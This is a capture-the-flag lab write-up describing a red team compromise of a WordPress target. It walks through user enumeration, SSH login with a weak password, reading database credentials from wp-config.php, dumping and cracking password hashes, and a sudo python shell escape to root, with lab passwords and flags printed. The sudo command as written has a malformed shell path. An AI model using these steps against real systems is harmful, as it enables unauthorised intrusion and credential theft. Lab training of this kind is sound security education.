

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:


```bash
$ nmap -sV 192.168.1.110

  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn
```

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
   - Port 22/TCP Open SSH
   - Port 80/TCP Open HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - allowed remote access usign ssh 
  - User enumeration
  - Weak Passwords 
  - Misconfiguration of priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`
  - **Exploit Used**
   - Used WPScan to enumerate users on the target machine 


   
      - then used ssh to remote access target 1 and logged into micheal's account with an easy to guess password. 
      - Username: michael
      - Password: michael 
      - Commands used: 
        - ssh michael@192.168.1.110 -p22
        - cd ..
        - cd ..
        - cd var/www/html
        - ls
        - nano service.html
   

    
  - `flag2 {fc3fd58dcdad9ab23faca6e9a36e581c}`
  - **Exploit Used**
    - Same as flag1. A flag2.txt file was found by snooping around in Micheal's account folders
    - Commands used:
     - cd ..
     - cd ..
     - ls
     - cat flag2.txt
      
 
 
  - flag3 {afc01ab56b50591e7dccf93122770cd2} 
  - flag4 {715dea6c055b9fe3337544932f2941ce}
  - **Exploit Used** 
    - Used credentials from wp-config.php file for MYSQL database, I logged into MYSQL. Flags 3 and 4 were found in the wp_posts tabel in the MYAQL wordpress database   
 
 
 
 - Flag 4 can also also be foud using the following method
   - Use MySQl credentials in the wp-config file located on Micheal's account to log into MySQL. 
   - User hashes were also discovered in the wp_users table of the wordpress database. The password hashes were then copied to the Kali machine in a file called wp_hashes.txt.
        


- Commands used:
    - mysql -u root -p (password: R@v3nSecurity from the wp-config.php file on michael's account)
    - show databases;
    - use wordpress; 
    - show tables;
    - select * from wp_users;


 - After dumping the password hashes into a wp_hashes.txt file onto the Kali machine, I used John the Ripper to crack steven's password
 - Command: `john wp_hashes.txt`
 - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then I used sudo -l to check for steven's priviledges which showed that he was allowed to run python commands with out credentials. 
 
 
 
 
 
            - Commands: 
                - ssh steven@192.168.1.110
                - pw:pink84
                - sudo -l
                - sudo python -c 'import os; os.system("bin/bash/")
                - cd /root
                - ls
                - cat flag4.txt
                

